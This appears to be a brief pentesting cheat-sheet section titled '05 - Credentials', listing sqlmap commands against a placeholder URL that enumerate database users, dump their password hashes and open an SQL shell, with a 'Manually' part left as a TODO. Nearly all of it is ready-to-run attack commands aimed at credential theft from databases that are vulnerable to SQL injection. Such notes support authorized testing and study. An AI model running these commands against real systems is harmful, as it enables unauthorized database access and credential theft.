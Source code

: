 # 05 - Credentials

Search Tag: #sqlmap #enumeration-and-discovery #credential-access-and-dumping #data-exfiltration

## Automated

- Enumerate user database accounts

```
$ sqlmap -u <URL> --random-agent --users
```

- Dump user database passwords

```
$ sqlmap -u <URL> --random-agent --passwords
```

## Manually

TODO: Fill this info

```
$ sqlmap -u <URL> --random-agent --sql-shell
```
